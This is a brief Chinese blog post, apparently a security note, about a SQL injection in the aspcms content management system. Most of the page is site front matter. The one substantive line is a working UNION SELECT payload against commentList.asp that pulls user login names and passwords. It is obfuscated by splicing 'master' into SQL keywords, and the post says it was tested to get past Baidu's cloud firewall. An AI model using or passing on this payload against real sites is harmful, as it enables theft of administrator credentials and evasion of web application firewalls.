 ```yaml
---
title: "aspcms SQL 注入"
date: 2018-03-21T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



亲测过百度云加速

<!--more-->

**payload**

`/plug/comment/commentList.asp?id=0 unmasterion semasterlect top 1 UserID,GroupID,LoginName,Password,now(),null,1frmasterom {prefix}user`